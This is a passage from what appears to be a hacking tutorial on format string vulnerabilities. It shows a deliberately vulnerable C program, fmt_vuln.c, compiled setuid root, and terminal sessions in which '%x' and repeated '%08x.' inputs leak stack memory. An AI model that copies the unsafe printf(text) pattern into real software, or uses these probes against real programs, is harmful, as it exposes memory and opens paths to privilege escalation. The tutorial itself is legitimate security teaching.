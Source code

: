 # *__The Format String Vulnerability__*

Sometimes programmers use _printf(string)_ instead of _printf("%s", string)_ to print strings. Functionally, this works fine. The format function is passed the address of the string, as opposed to the address of a format string, and it iterates through the string, printing each character. Examples of both methods are shown in _fmt_vuln.c_.

__fmt_vuln.c__

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]) 
{
    char text[1024];
    static int test_val = -72;

    if (argc < 2) 
    {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }
    strcpy(text, argv[1]);

    printf("The right way to print user-controlled input:\n");
    printf("%s", text);

    printf("\nThe wrong way to print user-controlled input:\n");
    printf(text);

    printf("\n");

    // Debug output
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val,
        test_val);
    
    exit(0);
}
```

The following output shows the compilation and execution of _fmt_vuln.c_.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -o fmt_vuln fmt_vuln.c
reader@hacking:~/booksrc $ sudo chown root:root ./fmt_vuln
reader@hacking:~/booksrc $ sudo chmod u+s ./fmt_vuln
reader@hacking:~/booksrc $ ./fmt_vuln testing
The right way to print user-controlled input:
testing
The wrong way to print user-controlled input:
testing
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

Both methods seem to work with the string _testing_. But what happens if the string contains a format parameter? The format function should try to evaluate the format parameter and access the appropriate function argument by adding to the frame pointer. But as we saw earlier, if the appropriate function argument isn’t there, adding to the frame pointer will reference a piece of memory in a preceding stack frame.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln testing%x
The right way to print user-controlled input:
testing%x
The wrong way to print user-controlled input:
testingbffff3e0
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

When the __%x__ format parameter was used, the hexadecimal representation of a four-byte word in the stack was printed. This process can be used repeatedly to examine stack memory.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "%08x."x40')
The right way to print user-controlled input:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.
The wrong way to print user-controlled input:
bffff320.b7fe75fc.00000000.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252
e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.2
52e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e78
38.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

This is what the lower stack memory looks like. Remember that each four-byte word is backward, due to the little-endian architecture. The bytes _0x25_, _0x30_, _0x38_, _0x78_, and _0x2e_ seem to be repeating a lot. Wonder what those bytes are?

